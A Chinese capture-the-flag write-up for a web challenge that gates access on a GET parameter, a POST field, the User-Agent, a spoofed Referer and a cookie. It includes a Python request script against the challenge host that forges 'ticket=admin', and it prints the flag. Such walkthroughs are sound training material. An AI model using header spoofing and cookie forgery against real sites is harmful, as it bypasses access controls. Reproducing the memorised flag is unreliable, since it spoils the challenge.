

# 18 HTTP · Web

- 分类：Web ｜ 分值：200 ｜ 状态：平台已解
- 一页五道闸，分别考 GET、POST 参数、User-Agent、Referer 和 Cookie，全过才发通行令。

## 题目

- 题号 18，题名「HTTP」，题面只有一句「这只是部分有关HTTP的知识」，出题人 chen。
- 动态容器，每次启动给一个独立端口。页面标题是「通行签发机」，顶部显示当前处在第几闸。

## 思路

- 直接把页面当接口打：每一闸都会在 `<article class="card">` 里回显「第几闸过了」和下一闸要求，照着逐条满足即可。
- 五闸依次是：GET 进入 → POST 且带 `submit=1` → User-Agent 自检 → Referer 必须是 `http://s3c-lab.internal/console` → Cookie 里 `ticket` 必须是管理员。
- 第 2、3 闸可以一发同时满足：POST 带表单参数，UA 用脚本默认的 `S3C-Gate/1.0`。
- 第 5 闸页面会先给一个 `ticket=guest`，把它改成 `ticket=admin` 再提交即可。

## 关键步骤

1. `GET /?start=1`，拿到「第 2 / 5 闸，第一闸过了」。
2. `POST /?start=1`，body `submit=1`，UA `S3C-Gate/1.0`，连过第二、三闸。
3. 同一请求加 `Referer: http://s3c-lab.internal/console`，第四闸通过。
4. 再加 `Cookie: ticket=admin`，第五闸通过，页面直接吐出通行令。

```python
import urllib.request, urllib.parse, http.cookiejar

BASE = 'http://103.85.23.250:31531/'
op = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(http.cookiejar.CookieJar()))

def req(path, data=None, headers=None):
    h = {'User-Agent': 'S3C-Gate/1.0', 'Accept': 'text/html'}
    h.update(headers or {})
    body = urllib.parse.urlencode(data).encode() if data else None
    if body:
        h['Content-Type'] = 'application/x-www-form-urlencoded'
    r = urllib.request.Request(BASE.rstrip('/') + path, data=body, headers=h)
    with op.open(r, timeout=15) as resp:
        return resp.status, resp.read().decode('utf-8', 'replace')

req('/?start=1')
req('/?start=1', data={'submit': 1})
req('/?start=1', data={'submit': 1},
    headers={'Referer': 'http://s3c-lab.internal/console'})
st, html = req('/?start=1', data={'submit': 1},
    headers={'Referer': 'http://s3c-lab.internal/console',
             'Cookie': 'ticket=admin'})
```

实测回显（脚本输出，逐闸推进到签发）：



页面本身长这样，卡片里就是下一闸的提示：


## Flag

```text
S3C{g3t_p0st_ua_r3f3r3r_c00k13_74b1d0b9c529}
```

## 踩坑 / 备注

- 不要用 `POST /`（丢掉 `?start=1`）：第一闸只认 GET 查询参数 `start=1`，必须 `POST /?start=1` 才能同时满足「GET 参数 + POST 方法」。
- 第 5 闸只校验 `Cookie` 头里的 `ticket` 值，脚本自己带 `ticket=admin` 即可，不必真的去改浏览器 cookie。
